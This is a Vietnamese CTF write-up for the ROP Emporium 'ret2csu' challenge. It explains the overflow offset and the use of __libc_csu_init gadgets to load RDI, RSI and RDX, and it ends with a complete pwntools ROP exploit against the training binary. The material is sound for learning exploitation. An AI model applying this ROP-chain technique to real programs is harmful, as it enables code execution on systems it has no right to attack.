 # ROP_Emporium - ret2csu

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2csu: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f722121b08628ec9fc4a8cf5abd1071766097362, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit.

Hàm usefulFunction()

![win.png](images/win.png)

Sử dụng gdb để xem mã assembly của hàm pwnme()

![pwnme.png](images/pwnme.png)

# 2. Ý tưởng

Do ở hàm usefulFunction() yêu cầu 3 tham số đầu vào phù hợp để chạy hàm ret2win()

![hint.png](images/hint.png)

Từ trên suy ra tham số sẽ là: `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

Mà bài này có thể bof ở hàm pwnme()

-> ROP_chain

# 3. Khai thác

Cùng offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Vậy offset là 0x28 bytes.

Như đã đề cập ở trên. Trước khi gọi hàm ret2win(), ta cần setup 3 thanh ghi tham số như sau:

```
RDI = 0xdeadbeefdeadbeef

RSI = 0xcafebabecafebabe

RDX = 0xd00df00dd00df00d
```

Sử dụng `ROPgadget` để kiểm tra các gadget cần thiết:

![ROP.png](images/ROP.png)

Ở đây chúng ta không kiếm được gadget để setup thanh ghi RDX.

Nhìn tên đầu bài đó là `ret2csu`

-> Sử dụng kỹ thuật return_to__libc_csu_init

Kiểm tra hàm `__libc_csu_init`

![csu.png](images/csu.png)

Chúng ta nhìn ra có thể setup thanh ghi RDX bằng chuỗi gadgets:

![csu2.png](images/csu2.png)

- Bước 1:

```
pop_rbx_rbp_r12_r13_r14_r15
0                           #rbx
1                           #rbp
addr_contains_init_func     #r12 -> address contain _int()
arg1                        #r13
arg2                        #r14
arg3                        #r15
```

Chúng ta sử dụng đoạn gadget

![csu1.png](images/csu1.png)

Để setup 6 thanh ghi rbx, rbp và r12 đến r15.

- Bước 2:

```
mov_rdx_r15_rsi_r14_edi_r13
0
0
0
0
0
0
0
```
Sử dụng đoạn gadget

![csu2.png](images/csu2.png)

Để đưa r15 vào rdx và đưa r14 vào rsi

- Chú ý:

`call   QWORD PTR [r12+rbx*8]` dùng call [r12+rbx*8] ở bước 1 ta đã setup r12 là địa chỉ của hàm _init()

![init.png](images/init.png)

Trong trường hợp này hàm _init() không làm tổn hại đến 3 thanh ghi tham số RDI, RSI, RDX cho nên ta sẽ gọi hàm đó.

Tiếp đến chuỗi gadget 

`add    rbx,0x1`
`cmp    rbp,rbx`
`jne    0x400680 <__libc_csu_init+64>`

Để không bị jne thì ta đã setup rbx ở bước 1 nhỏ hơn rbp 1 đơn vị

7 stack 0 tiếp đến để lấp vào các thanh ghi ở các gadget pop tiếp sau nó.

- Bước 3:

```
pop_rdi,
arg1,
win
```
Đây là các thanh ghi trước khi qua bước 3:

![step3.png](images/step3.png)

Do ở bước 1 câu lệnh `mov_rdx_r15_rsi_r14_edi_r13` sẽ đưa 32bit giá trị của r13 vào edi cho nên rdi chỉ được 8 bytes `0xdeadbeef`

Vì vậy ta cần setup lại rdi bằng lệnh pop_rdi trước khi gọi đến hàm win()

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./ret2csu', checksec=False)

p = process("./ret2csu")

#gdb.attach(p, gdbscript='''
#b*pwnme+152
#c
#''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_rsi_r15 = ROP(elf).find_gadget(["pop rsi", "pop r15", "ret"])[0]
win = elf.sym['ret2win']
vuln = elf.sym['usefulFunction']

str_addr = 0x601040

pop_rbx_rbp_r12_r13_r14_r15 = 0x000000000040069a
mov_rdx_r15_rsi_r14_edi_r13 = 0x0000000000400680

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d
addr_contains_init_func = 0x600e38
payload = flat(
    cyclic(0x28),
    pop_rbx_rbp_r12_r13_r14_r15,
    0,
    1,
    addr_contains_init_func,
    arg1,
    arg2,
    arg3,
    mov_rdx_r15_rsi_r14_edi_r13,
    0,
    0,
    0,
    0,
    0,
    0,
    0,
    pop_rdi,
    arg1,
    win
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# 4. Lấy flag

![flag.png](images/flag.png)


